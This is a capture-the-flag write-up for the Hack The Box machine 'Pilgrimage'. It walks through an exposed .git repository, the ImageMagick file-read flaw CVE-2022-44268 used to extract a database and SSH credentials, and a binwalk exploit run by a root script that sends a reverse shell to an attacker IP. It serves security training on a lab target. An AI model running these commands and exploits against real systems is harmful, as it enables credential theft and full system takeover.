





# Pilgrimage


Pilgrimage is an easy Linux Hack The Box machine that starts with a leaked Git repository and an ImageMagick arbitrary file read bug, then ends with root through a vulnerable Binwalk-based malware scan.

## Reconnaissance

I began with an Nmap scan of the target.

```bash
sudo nmap -sS -A -o nmap 10.10.11.219
```

The scan showed SSH and HTTP:

```text
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
```

I added `pilgrimage.htb` to `/etc/hosts` and started looking at the web application.



## Web Enumeration

The site had a single image-shrinking function. At first it was not obvious what could be exploited there, so I performed directory enumeration.

That revealed `/.git/index`, which strongly suggested that the website’s Git repository was still accessible.

```http
GET /.git/index HTTP/1.1
Host: pilgrimage.htb
```

The response confirmed a valid Git index file.

## Source Recovery

Since the repository was exposed, I dumped it using Git-dump and checked out the recovered source.

```bash
python3 git-dump.py http://pilgrimage.htb
cd output && git checkout -- .
```



The main `index.php` file was especially interesting.

```php
session_start();
require_once "assets/bulletproof.php";

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  $image = new Bulletproof\Image($_FILES);
  if($image["toConvert"]) {
    $image->setLocation("/var/www/pilgrimage.htb/tmp");
    $image->setSize(100, 4000000);
    $image->setMime(array('png','jpeg'));
    $upload = $image->upload();
    if($upload) {
      $mime = ".png";
      $imagePath = $upload->getFullPath();
      if(mime_content_type($imagePath) === "image/jpeg") {
        $mime = ".jpeg";
      }
      $newname = uniqid();
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      unlink($upload->getFullPath());
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
      if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
      header("Location: /?message=" . $upload_path . "&status=success");
    }
  }
}
```

Two details stood out immediately:

- The application used `magick convert` to process uploads.
- It stored its database at `/var/db/pilgrimage`.

That gave me a likely target for arbitrary file read.

## File Read

I checked the ImageMagick version:

```bash
./magick -version
```

The target was running **ImageMagick 7.1.0-49 beta Q16-HDRI**, which is vulnerable to an arbitrary file read issue https://git.rotfl.io/v/CVE-2022-44268 .

I used the public exploit to target the SQLite database file:

```bash
cargo run '/var/db/pilgrimage'
```



After uploading the crafted image through the site, I downloaded the processed file and extracted its metadata with `identify -verbose`.




```bash
identify -verbose 656208d131ab8.png > output.txt
```



Now that we have all the date I placed this in cyberchef and downloaded the sqlite file by using the recipe From Hex.

I converted the recovered hex data back into a SQLite database, then opened it with `sqlite3`.

```bash
sqlite3 pilgrimage.sqlite
.dump
```

That exposed a password for Emily’s account.

## Foothold

Using the recovered credentials, I logged in as `emily` over SSH.

```bash
ssh emily@pilgrimage.htb
```

That gave me a shell and user access.

## Privilege Escalation

`linpeas` did not immediately reveal anything useful, so I turned to `pspy` to watch for background activity.

```bash
python -m http.server 80
curl http://10.10.14.51/pspy64 -o pspy
chmod +x ./pspy
./pspy
```

While monitoring the system, I noticed a root-run script being executed whenever images were uploaded:

```text
/usr/sbin/malwarescan.sh
```

Reading the script showed that it used `inotifywait` to watch the `shrunk` directory and then ran `binwalk` on new files.

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
  filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
  binout="$(/usr/local/bin/binwalk -e "$filename")"
  for banned in "${blacklist[@]}"; do
    if [[ "$binout" == *"$banned"* ]]; then
      /usr/bin/rm "$filename"
      break
    fi
  done
done
```

That meant a vulnerable `binwalk` execution path was reachable as root. I checked the version and found a public exploit for the installed release https://www.exploit-db.com/exploits/51249 .

I generated a malicious image, copied it into the watched directory, and waited for the root service to process it.

```bash
python3 exploit.py 65620e2869bcb.png 10.10.14.51 443
cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/65620e2869bc2.png
```

A short time later, the root reverse shell came back.

## Attack Path

- Enumerate the host with Nmap.
- Discover the exposed `.git` directory.
- Recover the source code from the Git repository.
- Identify the ImageMagick processing path and the SQLite database location.
- Use the ImageMagick arbitrary file read issue to extract the database.
- Recover Emily’s SSH credentials from the database.
- Log in as `emily`.
- Observe root activity with `pspy`.
- Discover the root-run malware scan script.
- Abuse the vulnerable `binwalk` path to get a root shell.
